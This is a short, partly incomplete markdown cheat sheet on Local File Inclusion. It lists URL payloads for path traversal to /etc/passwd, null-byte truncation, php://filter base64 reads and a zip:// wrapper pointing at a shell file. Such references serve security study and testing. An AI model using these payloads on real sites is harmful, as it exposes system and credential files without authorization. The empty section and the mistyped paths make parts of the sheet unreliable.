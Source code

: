 # LFI (Local File Inclusion)

## 1. Classique
**Explanation :** Why use the variable "page" for include other file. And ../ for return to folder before. 
**Example :** http://www.exemple.com/?page=example.php
http://www.exemple.com/?page=../../../etc/.passwd

## 2. Null byte
**Explanation : ** .php was incremented automaticaly to photo, like lang=eng, so we use %00 for separate de extension added. 
**Exemple : ** http://www.exemple.com/?page=photo
http://www.exemple.com/?page=../../../etc/passwd%00

## 3. Double encoding
**Explanation : **
**Exemple : ** http://www.exemple.com/?page=
http://www.exemple.com/?page=

## 4. Wrappers
**Explanation : ** wrapper is for apply filter. We have :
phar://
zip://
**Example :** zip://tmp/file.zip%23shell.php
tar://
php://
**Exemple : ** http://www.exemple.com/?page=/etc/.passwd (permission denied)
http://www.exemple.com/?page= php://filter/convert.base64-encode/resource=/etc/.passwd
